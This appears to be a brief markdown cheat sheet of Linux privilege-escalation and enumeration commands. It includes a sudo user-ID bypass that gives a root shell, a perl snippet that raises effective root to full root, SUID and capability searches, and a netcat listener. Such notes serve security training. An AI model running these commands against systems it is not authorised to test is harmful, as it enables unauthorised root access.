 ## PrivEsc

### GTFOBin

<https://gtfobins.github.io/>

### sudo -l

- (ALL, !root) /bin/bash

```sh
sudo -u#-1 /bin/bash
```

### EUID 0 to UID 0

```bash
perl -MEnglish -e '$UID = 0; $ENV{PATH} = "/bin:/usr/bin:/sbin:/usr/sbin"; exec "su - root"'
```

### LinPeas

<https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

## Enum

### List SUID files

```sh
find / -perm /4000 2>/dev/null
```

### List capabilities files

```sh
getcap -r / 2>/dev/null
```

### List writable folders

```sh
find / -type d -writable 2> /dev/null
```

### List of executable binaries

```sh
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 6 -exec ls -ld {} \; 2>/dev/null
```

### Netcat

```sh
netcat -l
```

